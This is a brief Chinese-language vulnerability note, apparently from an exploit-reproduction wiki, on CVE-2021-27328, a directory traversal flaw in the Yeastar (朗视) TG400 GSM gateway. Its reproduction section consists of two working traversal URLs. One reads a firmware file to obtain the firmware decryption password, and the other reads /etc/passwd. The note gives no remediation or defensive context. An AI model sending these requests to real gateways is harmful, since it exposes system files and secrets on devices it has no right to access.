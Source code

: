 # 朗视 TG400 GSM 网关目录遍历 CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
朗视 TG400 GSM 网关
```

## 漏洞复现

暂无FOFA语句及固件设备复现

```plain
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

## 参考文章

https://github.com/SQSamir/CVE-2021-27328
